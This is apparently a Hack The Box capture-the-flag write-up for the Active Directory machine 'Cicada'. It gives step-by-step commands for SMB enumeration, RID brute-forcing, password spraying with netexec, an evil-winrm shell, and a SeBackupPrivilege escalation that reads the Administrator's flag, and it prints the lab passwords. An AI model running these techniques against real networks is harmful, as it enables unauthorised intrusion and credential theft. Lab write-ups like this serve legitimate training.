 ### Part one: Scanning and Enumeration

Let’s begin with an nmap scan, so that we know which service are running and where to start.

```
nmap -sC -sV 10.10.11.27
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/0.png)

I can see many services are running and machine is using Active Directory service and there are many service to fiddle with. I am going to start with samba and enumerate shares using smbclient:

```
smbclient -N -L $TAR, (TAR means target ip:TAR=10.10.11.35)
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/1.png)

let’s check if I can login with guest account or not, and if yes what permission we have using netexec:

```
nxc smb 10.10.11.35 -u ‘a’ -p ‘’ — shares
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/2.png)

I can read HR and $IPC share, lets see HR contents using smbclient. there is a file called ‘Notice from Hr.txt’

![NMAP](/static/writeups/HTB-S-VI/Cicada/3.png)

![NMAP](/static/writeups/HTB-S-VI/Cicada/4.png)

It contains password for default user 'Cicada$M6Corpb\*@Lp#nZp!8' can be seen in this file, lets keep note of it.  
 Now with a password in hand, lets find some usernames so, we can use password we found earlier. As it is active directory we can Enumerate Users by Bruteforcing RID using Netexec:

```
sudo nxc smb $TAR -u guest -p ‘’ — rid-brute
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/5.png)

I can find many user from this command, lets keep note of it. let’s use previously found password from ‘Notice from HR.txt’ and use these user to see if any username matches with password.

I am using netexec for this task also.

```
sudo nxc smb $TAR -u user.txt -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — continue-on-success
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/6.png)

I can see user ‘michael.wrightson’ matches with that pasword. lets use these credentials in Netexec to see what permission we have on share with this account.

```
nxc smb 10.10.11.35 -u ‘michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — shares
```

Nothing interesting same permission as guest account so, lets use ldapdomaindump using michael to find some more information.

```
ldapdomaindump 10.10.11.35 -u ‘cicada\michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/7.png)

I find that David Orelius left his password in description: ‘aRt$Lp#7t\*VQ!3’. lets use the credentials in Netexec to see what permission I have on share with this account.

![NMAP](/static/writeups/HTB-S-VI/Cicada/8.png)

david can access dev share lets see what is in there using smbclient

```
smbclient -U david.orelious //$TAR/DEV
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/9.png)

there is file called backup_script.ps1 which contains emily.oscars password: ‘Q!3@Lp#M6b*7t*Vt’. Lets see what permission i have on share using these credentials using NetExec:

```
nxc smb 10.10.11.35 -u ‘emily.oscars’ -p ‘Q!3@Lp#M6b*7t*Vt’ — shares
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/10.png)

emily can read all share except DEV and have write access in C$ share.

### Part Two: Finding Foothold

Accessing c$ share using emily account and pivoting here and there we can see that there is file called user.txt in Desktop folder ‘C:\Users\emily.oscars.cicada\Desktop’ from where I am able to get user flag.

Using evil-winrm with emily account, I am able to get shell in the machine.

```
sudo evil-winrm -i $TAR -u emily.oscars -p ‘Q!3@Lp#M6b*7t*Vt’
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/11.png)

and using net user emily.oscars, I can see that emily is part of backup_operators group.

lets keep pivoting, file called root.txt can be found on Desktop folder under Administrator directory.

![NMAP](/static/writeups/HTB-S-VI/Cicada/12.png)

But I cannot download or access that file with emily.

### Part Three: Privilege Escalation

As a built-in AD groups, **Backup operators** can log into a computer and shut it down. Can create backup of local files regardless of permission on that file. NTDS.DIT can be cloned.  
 lets look for a way to escalate privilege in order to read ‘root.txt’. by googling for a while i found a way to escalate privilege of emily.oscars [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

Using two dll called SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll, I am able to copy and access file that high level user like admin can access.

![NMAP](/static/writeups/HTB-S-VI/Cicada/13.png)

I can download these file from internet and manually upload them in write access directory of emily.oscars and using the method above i can escalate privilege and copy it to directory with write permission using this command:

> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt c:\\Users\emily.oscars.CICADA\Downloads\a.txt

![NMAP](/static/writeups/HTB-S-VI/Cicada/14.png)

and I got root flag like this:

![NMAP](/static/writeups/HTB-S-VI/Cicada/15.png)

cheers!!

![](/static/writeups/HTB-S-VI/Cicada/cicadaa.png)
